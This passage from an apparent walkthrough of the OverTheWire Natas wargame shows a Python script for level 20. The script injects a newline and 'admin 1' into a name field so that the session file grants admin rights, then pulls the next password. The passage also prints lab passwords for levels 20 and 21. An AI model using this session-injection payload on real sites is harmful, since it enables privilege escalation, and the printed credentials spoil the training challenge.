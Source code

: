 To get the credentials, you can use the following python script which will extract the credentials for the next level from subsequent requests using the same session.

{% code lineNumbers="true" %}
```python
import requests
from requests.auth import HTTPBasicAuth
import re

session = requests.Session()

url = "http://natas20.natas.labs.overthewire.org/?debug"
username = "natas20"
password = "guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH"

session.post(
    url,
    data={"name": 'someone\nadmin 1'},
    auth=HTTPBasicAuth(username, password),
)

response = session.get(
    url,
    auth=HTTPBasicAuth(username, password),
)

print(re.findall(r'Username:\snatas21', response.text)[0])
print(re.findall(r'Password:\s[A-Za-z\d]{32}', response.text)[0])
```
{% endcode %}

From running the above script, we got the credentials for the next level.

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

***

## Level 20 - Level 21

```
Username: natas21
Password: 89OWrTkGmiLZLv12JY4tLj2c4FW0xn56
URL:      http://natas21.natas.labs.overthewire.org
```

In this level, we have got a page with a link to another website and also a link to the source code.
